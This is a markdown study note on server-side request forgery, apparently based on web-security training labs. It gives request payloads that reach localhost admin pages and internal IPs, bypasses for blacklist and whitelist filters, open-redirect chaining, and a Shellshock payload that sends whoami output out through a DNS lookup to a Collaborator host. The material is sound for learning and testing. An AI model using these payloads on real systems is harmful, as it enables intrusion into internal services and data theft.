 ![[SSRF.jpg]]
# Server-Side Request Forgery (SSRF)

An attacker can cause a server to make a connection to internal-only services within an organization or force the server to connect to external systems.

For SSRF attacks against a server, attackers cause it to make HTTP requests back to the server hosting the app, via loopback address typically via supplying a URL with a hostname like `127.0.0.1` or `localhost`. 
# SSRF Attacks Against Server

An app may show if an item is in stock via a query to a backend REST API by passing the URL via front-end HTTP request:

```json
POST /product/stock HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 118

stockApi=http://stock.weliketoshop.net:8080/product/stock/check%3FproductId%3D6%26storeId%3D1
```

Request can be modified to specify a URL local to the server:

```json
POST /product/stock HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 118

stockApi=http://localhost/admin
```

For example, there may be functions to delete users located at `/admin/delete?username=carlos` which could be called and executed via SSRF:

```json
POST /product/stock HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 118

stockApi=http://localhost/admin/delete?username=carlos
```
# SSRF Against Back End Systems

Sometimes, the app server can interact with back-end systems which often have private IP addresses and protected by network topology. Internal backend systems may contain sensitive functionality without needing authentication.

For example, there may be an administrative interface on an IP such as `https://192.168.0.68/admin`. If so, a request such as the following can be sent:

```json
POST /product/stock HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 118

stockApi=http://192.168.0.68/admin
```

If the IP address is not known, use Burp Intruder to attempt to guess the internal IP address by adding an insertion point as the last octet (`192.168.0.x`) and a payload list of 1-255:

```json
stockApi=http://192.168.0.§1§:8080/admin&storeId=1
```

>[!info]
>The same can be done for the ports and the directories via fuzzing.
# SSRF Blacklist-Based Input Filters

Some apps block input with values such as `127.0.0.1` or `localhost` or sensitive URLS such as `admin`. Some bypasses may include:

- Alternative IP representation such as `2130706433`, `01770000001` or `127.1`
- Using a domain that resolves to `127.0.0.1` such as `spoofed.burpcollaborator.net`
- Obfuscating blocked strings using URL encoding or case variation
- Using URLs you control which redirect to target URL using different redirect codes, and different protocols (e.g. from `http` to `https:`).

For example, try seeing if the IP can be bypassed first such as:

```json
stockApi=http://127.1&storeId=1
```

If so, try adding sensitive URLs such as `/admin` and see if filters are in place. If so, try various methods such as case variation:

```json
stockApi=http://127.1/aDmIn&storeId=1
```

Or URL encoding or double URL encoding:

```json
stockApi=http://127.1/%25%36%31%25%36%34%25%36%64%25%36%39%25%36%65&storeId=1
```
# SSRF Whitelist-Based Input Filters

Some apps may use whitelists which look for a match at the beginning of the input, or contained inside it which can be bypassed by exploiting inconsistencies in URL parsing. URL specification has features that are likely overlooked when URLs implement ad-hoc parsing and validation such as:

- Embedding credentials in a URL before hostname using `@` - `https://expected-host:fakepassword@evil-host`
- Using `#` to indicate a URL fragment - `https://evil-host#expected-host`
- Leveraging DNS naming hierarchy to place required input into a FQDN you control - `https://expected-host.evil-host`
- URL encoding characters to confuse URL-parsing code. Good if it encodes characters differently than the code that performs back end HTTP requests. Attempt double URL encoding as well.
# SSRF via Open Redirection

Filters can be bypassed via an open redirection vulnerability. For example, imagine the user-submitted URL is validated, but the application whose URLs are allowed contains an open redirection vulnerability.

If the API used to make back end requests supports redirections, a URL can be used to satisfy the filter and redirect a request to the desired back end system such as:

```json
/product/nextProduct?currentProductId=6&path=http://evil-user.net
```

Try leveraging the open redirection to bypass the URL filter via a request such as:

```json
POST /product/stock HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 118

stockApi=http://weliketoshop.net/product/nextProduct?currentProductId=6&path=http://192.168.0.68/admin
```

The app may first validate the URL is allowed, requests the supplied URL and triggers open redirection. For example, a "Next Product" option may include a path parameter. If so, the payload can be used as follows:

```json
/product/nextProduct?path=http://192.168.0.12:8080/admin
```
# Blind Server-Side Request Forgery

In blind SSRF, the response is not returned in the app's front-end response. To find them, try using out-of-band (OAST) techniques by attempting to trigger an HTTP request to an external system and monitoring for network interactions.

Try using Collaborator to generate unique domain names, send them in payloads and monitor for any interactions. If an HTTP request is received, it is vulnerable.

>[!info]
>It's common to observe a DNS look up, but no HTTP request as the app attempted to make an HTTP request, causing a DNS request but HTTP requests were blocked. 

Try testing every parameter that potentially talks to the back end via a URL. Try submitting a Collaborator 
payload in various areas, such as the `Referer` header. If a request is received, it may be vulnerable.

To exploit blind SSRF, combine it with other attacks such as Shellshock. For example, the `Referer` header may be vulnerable to SSRF and send the User-Agent string with the HTTP request. If so, use the following payload as the User Agent:

```json
() { :; }; /usr/bin/nslookup $(whoami).BURP-COLLABORATOR-SUBDOMAIN
```

Change the `Referer` header to `http://192.168.0.1:8080` and fuzz the IP address using Burp Intruder. If vulnerable, a DNS request will be present in Collaborator containing the result of the `whoami` command.
# Hidden Attack Surface for SSRF

SSRF can be easy to find as the normal traffic involves request parameters containing full URLs. Some other examples are harder.

Sometimes, apps place only a hostname or part of a URL path into request parameters. The value submitted is incorporated server-side into a full URL. If the value is readily recognized as a hostname or URL path, the attack may be obvious. Exploitability as full SSRF might be limited as you can't control the entire URL.

Some apps transmit data in formats with a specification allowing the inclusion of URLS that might get requested by the data parser such as the XML data format. When an app accepts data in XML format and parses it, it may be vulnerable to XXE injection or vulnerable to SSRF via XXE.

Some apps use server-side analytics software to track visitors which often logs Referer headers in requests. The Referer header can be a useful attack surface for SSRF.

